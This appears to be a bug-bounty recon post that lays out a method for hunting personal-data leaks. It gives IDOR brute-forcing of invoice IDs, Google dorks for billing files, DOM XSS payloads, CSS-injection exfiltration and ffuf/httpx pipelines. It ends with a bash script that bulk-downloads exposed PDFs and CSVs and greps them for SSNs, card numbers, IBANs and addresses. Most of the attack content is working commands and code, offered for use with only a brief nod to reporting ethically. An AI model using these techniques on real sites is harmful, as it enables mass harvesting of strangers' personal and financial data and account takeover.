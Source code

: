 ## 🔍 Full Blueprint:
>How to Hunt & Reproduce PII/Data Leaks Like a Pro
Whether you're chasing juicy bounties or performing red team recon, this post gives you a battle-tested strategy to detect PII leaks, exposed invoices, weak APIs, DOM XSS, and more — step-by-step.

### ✅ 1. 🕵️‍♂️ Mass PII Exposure (Billing, Address, Payments, Personal Info)
🎯 Targeted Directories & Endpoints:
```
Pages: /invoices/, /billing/, /account/, /payment/, /orders/, /checkout/
APIs: /api/user, /api/invoice, /api/payment-method, /api/download
```
#### A. IDORs on User-Specific Endpoints
Many websites assign numeric IDs to invoices, statements, etc.

```
GET /api/invoice?id=1001
GET /account/billing/1002
```
#### 🧠 How to Exploit:

Use Burp Suite > Repeater or Intruder

Brute force IDs

If responses return other users’ data = 🔥 critical PII leak

💡 No auth required = jackpot.
💥 If JWT/auth token doesn’t block you, even better.

#### B. Exposed PDF/CSV/ZIP via Archive URLs
```
gau http://target.com | grep -Ei "\.pdf|\.csv|\.zip" > files.txt
cat files.txt | xargs -I % curl -s "%" | \
grep -Ei "email|iban|address|card|amount|name|ssn"
```
> 🧠 Why it works: Many companies don’t protect old downloadable invoices. These files often live in wp-content, uploads, or /files/.

#### C. Google Dorks for Leaked Docs
Use these to passively recon leaked billing data:

```
site:target.com inurl:invoice filetype:pdf
site:target.com inurl:billing filetype:csv
site:target.com confidential filetype:zip
```
💡 You’ll often find:

Invoices with names/addresses
Finance reports
Exported databases
HR documents

### ✅ 2. Account Takeover via DOM XSS & CSS Injection
🔎 DOM XSS Hunting Tools:
`XSStrike` `Burp Suite DOM Invader`

Manual inspection of JS sinks: `location.hash`, `document.URL`, etc.

Test Payloads:
```
"><script>alert(document.domain)</script>
"><img src=x onerror=alert('XSS')>
```
Inject into:

```
https://target.com/#/account?user="><script>...
https://target.com/?next="><img...
```
🧥 CSS Injection → Data Exfil
If user-controllable styles exist (themes, names, etc):
Inject malicious CSS into profile names, signatures, etc.

Use: `https://github.com/mwrlabs/css-exfil`

### ✅ 3. Full Recon Strategy for Sensitive Leak Mapping
Step-by-step pipeline:
```
subfinder -d target.com -o subs.txt
cat subs.txt | httpx -paths /billing,/account,/api/user,/invoice -mc 200 -title > live_targets.txt
```
Then brute for endpoints:

```
ffuf -u https://site.com/FUZZ -w endpoints.txt -mc 200 -o hits.json
```
✅ Custom Wordlist:
Use `SecLists/Fuzzing/endpoints-fuzz.txt` + your own:

```
invoice, contract, download, report, users, info, details, payroll, dashboard
```
### ✅ 4. Payload Automation (Burp/Intruder)
Automate fuzzing across IDs like invoice_id, user_id
Payloads: 1000–9999, or UUIDs if applicable

Grep Match:

`"email"`
`"amount"`
`"iban"`
`"zip"`
`"ssn"`

📌 Why it’s critical: Even one exposed invoice PDF with valid info = bounty-worthy.

✅ Bonus: What to Report
High-Impact Findings Include:

🔓 Exposed `/api/invoice?id=1001` showing full billing info

📂 Public ZIPs or PDFs with 100+ users

🧨 DOM XSS in `billing.js` or user dashboards

🗃️ Firebase storage leaking `/users.json`

📝 Leaked CSVs in `/uploads/private/`

🛠️ Tool Spotlight: PII Hunter by @cybersecplayground
Quickly automate all of the above with:

```
chmod +x pii_hunter.sh
./pii_hunter.sh http://target.com
```
🔍 Example Output:
```
[*] Scanning files for PII indicators (email, address, SSN, card)...
downloads/users.csv: john.doe@example.com, 1234-5678-9999-0000, 90210
downloads/invoice_2023.pdf: Jane Smith, 1 Main Street, SSN: 123-45-6789
```
🔥 Found sensitive data? You just earned yourself a bounty.

🧠 Script Preview:
```
#!/bin/bash
# THEMSTER PII HUNTER - Recon & Leak Detection

domain=$1
mkdir -p pii-hunter/$domain && cd pii-hunter/$domain
gau $domain | tee all_urls.txt
cat all_urls.txt | grep -Ei '\.pdf|\.csv|\.zip|\.xls' > sensitive_files.txt
cat all_urls.txt | grep -Ei 'billing|invoice|account|contract|statement' > pii_paths.txt
cat pii_paths.txt | httpx -silent -mc 200 > live_pii.txt
mkdir -p downloads
while read url; do curl -s "$url" -o downloads/$(basename "$url"); done < sensitive_files.txt
grep -E -i -r 'email|@|address|ssn|iban|card|zip|payment|name|phone' downloads/ > suspected_pii.txt
```
💥 Why It Matters:
This tool is a goldmine when doing:

🧨 Recon for bug bounty

📦 Testing for accidental data exposures

🛡️ Compliance checks before public release

Use it ethically. Report leaks. Collect bounties. Win.
It performs:

🕸️ Crawling archived URLs with gau

🔍 Filtering files: `.pdf`, `.csv`, `.zip`, `.xls`

📂 Downloading leaked files

🧬 Grepping for: `email`, `ssn`, `iban`, `card`, `phone`, `zip`

🔥 Combine with `httpx`, `ffuf`, and `curl` for a fully weaponized recon toolchain!

🔐 Stay persistent. Find what’s overlooked. Report ethically.

📣 Follow @[cybersecplayground](https://t.me/cybersecplayground) for daily bug bounty recon tactics, tools, and real payloads!

💬 If this helped, like, comment, and share with your hacker circle.

#bugbounty #osint #recon #pii #dataleak #infosec #cybersecurity #xss #idor #cybersecplayground #pentest #hackingtools #reconnaissance #cssinject #exfiltration
